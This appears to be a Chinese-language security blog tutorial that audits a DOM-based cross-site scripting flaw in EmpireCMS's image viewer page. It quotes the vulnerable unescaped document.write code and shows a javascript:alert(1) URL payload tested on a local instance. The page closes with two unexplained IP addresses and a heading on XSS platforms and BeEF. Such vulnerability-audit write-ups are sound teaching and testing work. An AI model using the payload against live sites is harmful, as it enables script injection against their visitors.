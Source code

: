 - DOM型实例-EmpireCMS前端页面审计

------

```plain
DOM类型的全都是前端的代码，所以基本上都是白盒审计。
在upload/e/Viewimg/index.html 发现关键代码：
if(Request("url")!=0){
	document.write("<a title=\"点击观看完整的图片...\" href=\""+Request("url")+"\" target=\"_blank\"><img src=\""+Request("url")+"\" border=0 class=\"picborder\" onmousewheel=\"return bbimg(this)\" onload=\"if(this.width>screen.width-500)this.style.width=screen.width-500;\">");
    }
```

![1645699200929-a2d80c2b-3419-413f-9d97-07353dcb9e64.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171833732-1683164755.png)

```plain
追踪request函数
```

![1645699266665-6e3fd05c-1d6e-4a0f-aa2b-c4a7145c4e50.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834168-1926646980.png)

```plain
简单来说，这个request函数就是用来接收URL的地址
那么要怎么构造他呢？
访问地址http://127.0.0.1:8103/e/Viewimg/index.html
测试：http://127.0.0.1:8103/e/Viewimg/index.html?url=1
```

![1645699547602-9c66a3b0-02b0-444c-8614-c6e1acfe4f85.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834197-106608097.png)

```plain
点击图片后出现的地址http://127.0.0.1:8103/e/Viewimg/1
证明URL后面的参数拼接在URL后面了，那么应该怎么触发跨站呢？
http://127.0.0.1:8103/e/Viewimg/index.html?url=javascript:alert(1)
这样子构造在源代码中
document.write("<a title=\"点击观看完整的图片...\" href=\""+javascript:alert(1)+"\" target=\"_blank\"><img src=\""+Request("url")+"\" border=0 class=\"picborder\" onmousewheel=\"return bbimg(this)\" onload=\"if(this.width>screen.width-500)this.style.width=screen.width-500;\">");



点击后的地址进行了弹窗
```

![1645699830809-0e74fa09-b2a0-4185-8887-45103080c9b4.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834375-1964363030.png)

```plain
49.234.224.93
120.26.128.143:8086
```

- XSS利用环境-XSS平台&Beef-XSS项目

------
